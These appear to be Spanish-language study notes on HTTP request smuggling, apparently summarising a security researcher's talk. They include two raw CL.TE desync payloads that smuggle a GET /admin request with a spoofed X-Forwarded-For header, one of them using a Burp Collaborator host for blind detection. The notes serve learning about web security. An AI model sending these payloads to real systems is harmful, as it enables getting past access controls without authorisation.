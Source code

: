 Así que agregando una petición sirvio

### X-Forwarded-For
Muchas páginas usan la cabecera X-Forwarded-For, que identifica la dirección IP del cliente que se conectal al sitio web. Cualquier página decente bloquearia el tratar de redefinir esta cabecera. Con un quest Request Smuggling podrías bypasear la seguria del frontend, y de está manera reescribir tu dirección IP
![[Pasted image 20240805120526.png]]
```HTTP
POST / HTTP/1.1
Host: software-vendor.com
X-Forwarded-For: 127.0.0.1
Content-Length: 200
Transfer-Encoding : chunked

0

GET /admin HTTP/1.1
Host: software-vendor.com
X-Forwarded-For: 127.0.0.1
X: XGET / HTTP/1.1
	Host: software-vendor.com
```

Este es un ejemplo que james, por el cual le pagaron 300 $, aclara que no es particularmente muy bien remunerada como otras vulnerabilidades más critícas, pero dijo que funciona en todos los servidores en 2019, cuando está vulnerabilidad era casi desconocida (igual sigue sin ser muy famosa).

### Blind Request Smuggling
Imaginenomos  que tenemos una web donde el time out sirvió, pero el volumen del tráfico es muy alto, (Website traffic volume refers to **the total number of visitors a website receives within a specific period**). Usando un nombre uno en el X-Forwarded-For
![[Pasted image 20240805143306.png]]
```HTTP
POST / HTTP/1.1
Host: software-vendor.com
X-Forwarded-For: 127.0.0.1
Content-Length: 200
Transfer-Encoding : chunked

0

GET /admin HTTP/1.1
Host: software-vendor.com
X-Forwarded-For: xyz.burpcollaborator.net
X: XGET...
```

### Login Bug
EN este ejemplo dentro de la propia contraseña del proxy pudo concatenar la request
![[Pasted image 20240805151029.png]]
